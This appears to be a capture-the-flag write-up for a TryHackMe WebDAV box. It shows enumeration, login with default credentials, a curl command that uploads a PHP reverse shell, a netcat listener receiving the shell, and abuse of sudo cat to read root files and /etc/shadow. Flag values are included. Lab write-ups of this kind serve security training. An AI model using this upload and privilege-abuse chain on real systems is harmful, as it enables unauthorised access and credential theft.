



<br>
<br>

**This TryHackMe box was marked as `"Easy,"` I started by performing file enumeration and subdomain enumeration, but I didn’t find anything interesting. then I tried using `feroxbuster`, which revealed a directory with an unusual HTTP status code: `401 Unauthorized`. When I visited the directory `/webdav`, I encountered a login prompt.**

**I went back to enumeration with Nmap and checked the HTTP headers. That’s where I noticed that POST and GET requests were allowed (from the Allow header). I began searching for information about WebDAV vulnerabilities. When I inspected the response using Burp Suite, I noticed an `encoded value` in the Authorization header:**

`Authorization: Basic YWRtaW46YWRtaW4=`

**I decoded the string and found it was a set of credentials (admin:admin). Initially, I thought these might not work, so I searched for default credentials for WebDAV and tested a few combinations. After some trial and error, I discovered that the credentials worked, giving me access to the WebDAV server.**

**Not wanting to waste too much time searching, I asked ChatGPT for guidance. That’s when I learned the WebDAV server was vulnerable to input validation. Using this knowledge, I crafted a POST request with curl and the `--data-binary` flag to test file uploads. Since the server allowed POST requests, I successfully uploaded a reverse shell payload and gained initial access.**

**For privilege escalation, I ran LinPEAS to analyze the server and search for any juicy information. During the scan, I found a file named `sudoers.bak`. then checked the sudo privileges using `sudo -l`. I discovered that the cat command could be run with sudo privileges. Using this, I can read the contents of root.txt file and leveraged it to elevate privileges temporarily.**

**However, I faced a limitation—I wasn’t able to gain full control `(root access)` to the system. Despite this, I could view critical files like /etc/shadow. In real-world environment, We could use this access to crack users passwords, but it felt like a dead end in this particular challenge. So, I decided to stop there.**

<br>
<br>




## Debugging 
```bash
$ curl -sI 10.10.18.153
HTTP/1.1 200 OK
Date: Sun, 08 Dec 2024 06:17:41 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 26 Aug 2019 03:38:48 GMT
ETag: "2c39-590fce4d4ea8c"
Accept-Ranges: bytes
Content-Length: 11321
Vary: Accept-Encoding
Content-Type: text/html
```

## Nmap 
```bash
$ nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- 10.10.18.153 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.18.153 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-08 14:17 PST
Nmap scan report for 10.10.18.153
Host is up (0.37s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.98 seconds
                                                                   
```
## HTTP header enum
```bash
$ nmap -p 80 --script http-methods dav.thm
Nmap scan report for dav.thm (10.10.18.153)
Host is up (0.34s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

Nmap done: 1 IP address (1 host up) scanned in 3.02 seconds
                                                             
```

## File Enum
```bash
$ feroxbuster -u http://10.10.18.153 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt --scan-dir-listings 
                                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.18.153
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
 
200      GET       15l       74w     6143c http://10.10.18.153/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.10.18.153/
404      GET        9l       33w      289c http://10.10.18.153/Program%20Files
404      GET        9l       33w      286c http://10.10.18.153/contact%20us
404      GET        9l       33w      287c http://10.10.18.153/donate%20cash
404      GET        9l       33w      290c http://10.10.18.153/external%20files
404      GET        9l       33w      285c http://10.10.18.153/home%20page
404      GET        9l       33w      286c http://10.10.18.153/modern%20mom
404      GET        9l       33w      290c http://10.10.18.153/press%20releases
404      GET        9l       33w      290c http://10.10.18.153/privacy%20policy
404      GET        9l       33w      284c http://10.10.18.153/site%20map
404      GET        9l       33w      289c http://10.10.18.153/style%20library
404      GET        9l       33w      290c http://10.10.18.153/web%20references

401      GET       14l       54w      459c http://10.10.18.153/webdav

```


## WebDAV Input Validation Vulnerability
A lack of input validation vulnerability occurs when user inputs are not properly sanitized or filtered, allowing attackers to inject malicious data or commands that can be executed by the server.

In a typical WebDAV setup, a file upload functionality might not properly validate file types, file names, or contents. An attacker could exploit this vulnerability by uploading a malicious file (e.g., a PHP web shell or a file with a dangerous extension) to execute arbitrary code on the server.

## Methodology
The first step in identifying input validation vulnerabilities is to gather information about the target system:

- Understand the Application: Identify areas of the web application that accept user inputs, such as file upload fields, forms, URL parameters, HTTP headers, and authentication inputs.
- Identify Input Entry Points: Look for user inputs that are passed directly to the server (e.g., file upload, form submission, search fields).
- Examine Input Handling: Determine how the application handles user input by inspecting HTTP requests, such as POST and GET requests, or headers (e.g., `Authorization`, Content-Type).
- Check for WebDAV Access: If you're testing a WebDAV server, verify that it allows file uploads and see if input is properly sanitized when files are uploaded.
```bash
# payload
$ curl -u wampp:xampp -X POST -H "Content-Type: application/php" --data-binary @shell.php http://dav.thm/webdav/shell.php
```
```bash
$ curl -u wampp:xampp -X POST -H "Content-Type: application/php" --data-binary @shell.php http://dav.thm/webdav/shell.php -v
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host dav.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.18.153
*   Trying 10.10.18.153:80...
* Connected to dav.thm (10.10.18.153) port 80
* using HTTP/1.x
* Server auth using Basic with user 'wampp'
> POST /webdav/shell.php HTTP/1.1
> Host: dav.thm
> Authorization: Basic d2FtcHA6eGFtcHA=
> User-Agent: curl/8.10.1
> Accept: */*
> Content-Type: application/php
> Content-Length: 2592
> 
* upload completely sent off: 2592 bytes
< HTTP/1.1 200 OK
< Date: Sun, 08 Dec 2024 07:09:52 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 92
< Content-Type: text/html; charset=UTF-8
< 
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
* Connection #0 to host dav.thm left intact

```
## Shell
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.23.42.147] from (UNKNOWN) [10.10.18.153] 52664
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:05:09 up 49 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (712): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ 

```

## Flag
```bash
www-data@ubuntu:/home/merlin$ cat user.txt
cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

## Privilege Escalation
```bash
-rwxrwxrwx  1 root root     755 Aug 25  2019 sudoers.bak
```
```bash
www-data@ubuntu:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat


www-data@ubuntu:/tmp$ sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5

```
